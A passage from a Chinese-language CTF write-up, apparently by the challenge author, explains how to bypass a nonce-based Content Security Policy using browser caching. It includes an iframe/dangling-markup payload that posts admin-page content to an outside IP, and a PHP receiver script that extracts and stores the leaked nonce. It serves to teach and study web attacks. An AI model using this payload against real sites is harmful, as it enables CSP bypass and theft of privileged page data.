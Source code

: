 下面我们回归到正确的攻击思路上去。

我们发现index.php是存在xss的样子，但是后台开启了csp

![image_1bd6582u5641h5c1g006k6r2f13.png-3.5kB][3]

这是一个比较特别的nonce script csp，属于新型的csp，每次请求服务器都会更换新的字符串，如果字符串不匹配，那么脚本就会被拦截。（后面我会再发文章讲这个CSP的攻击方式）

我不知道盲测这个漏洞是怎么测试的，但你可能需要一篇文章

[http://sirdarckcat.blogspot.jp/2016/12/how-to-bypass-csp-nonces-with-dom-xss.html](http://sirdarckcat.blogspot.jp/2016/12/how-to-bypass-csp-nonces-with-dom-xss.html)

文章中提到了一点，如果浏览器并没有请求后台，那么csp就不会刷新，那么怎么才能让它不刷新呢？浏览器缓存！

当服务端做出一部分配置的之后，如果页面内容不涉及到后台（仅涉及到前台的变化），那么浏览器就会从缓存中加载内容。

![image_1bd6e1i5k1m6a1dpf1bi0g5j186a9.png-16.6kB][4]

具体浏览器缓存的机制就不多解释了，我们发现后台开启了缓存机制，虽然只有30s，但是已然足够了。

这里其实思路就呼之欲出了，先iframe请求一次，然后解出nonce的值，添加到script的属性中，执行任意xss。

由于没有同源策略的拦截，所以出现了很多问题，类似于wupco的payload，但小m的和cola的是正解。

[https://pwnhub.cn/media/writeup/123/909db9f9-1bb4-4c5b-a697-b0fa223ed376_a599515c.pdf](https://pwnhub.cn/media/writeup/123/909db9f9-1bb4-4c5b-a697-b0fa223ed376_a599515c.pdf)

下面贴出，跨域情况下的处理方式以及payload，也是我出题的初衷。

根据前面文章中的poc，我们重新梳理试图读取flag.php的流程。

1、向admin发送payload，admin页面需要打开一个iframe目标为后台并输入一个form，用textrea吃掉页面内容

```
<iframe id="frame" src="http://127.0.0.1/xsstest_new/admin/#<form method='post' actioonn='http://115.28.78.16/noonnce.php'><input type='submit' value='test!'><textarea name='noonnce'>"></iframe>
```

由于我们需要接收到这部分信息，而且后台开启csp，无法发送跨域请求，所以在自己服务器构造nonce.php文件解析请求，返回nonce字符串。（nonce.php必须保证保存字符串，在之后的请求中返回，在原poc中，这里是通过session保留的，但是我在实际测试的时候遇到了问题，我改成了文件储存）

```
<?php
header("Access-Control-Allow-Origin:*");

$file = "result.txt";
if(!file_exists($file)){
	if(!empty($_POST)){
		$f = fopen($file, 'w+');
		$message = $_POST['nonce'];
		preg_match('/(nonce=\')\w+\'/', $message, $matches);
		$nonce_number = substr($matches[0], 7, -1);
		fwrite($f, $nonce_number);
		echo $nonce_number;
		fclose($f);
	}
}else{
	$f = fopen($file, 'r');
	echo fgets($f);
	fclose($f);
}
?>
```


  [1]: http://static.zybuluo.com/LoRexxar/x456wiqarhtd85ufb6r67ulz/image_1be4da9901l902161muj1khor429.png
  [2]: http://static.zybuluo.com/LoRexxar/wffm5weehycndc8b9k2x0972/image_1bd65493j1oof1doj1ok152diqkm.png
  [3]: http://static.zybuluo.com/LoRexxar/0ta8ypvabn74fhcalpxb6gvt/image_1bd6582u5641h5c1g006k6r2f13.png
  [4]: http://static.zybuluo.com/LoRexxar/qvp6z81nzd85lx1l29kscv9p/image_1bd6e1i5k1m6a1dpf1bi0g5j186a9.png
  [5]: http://static.zybuluo.com/LoRexxar/zcafmqme8aujaxnmti8jsp4j/image_1be4dlo64vi3vtl1ee8hu31g8gm.png
  [6]: http://static.zybuluo.com/LoRexxar/80aqq62w7f7a2i21vqely76s/image_1be4e5g8q1pjk12714191vtp18ta13.png
  [7]: http://static.zybuluo.com/LoRexxar/xfrth6zizzzkdywwp25nm1kk/image_1bednb31n145c1shfa8cj41p7p9.png
  [8]: http://static.zybuluo.com/LoRexxar/6xp2ciyd1oavbswajjusl31z/image_1bednf0jr1t3oh4f1pqoqmm5cnm.png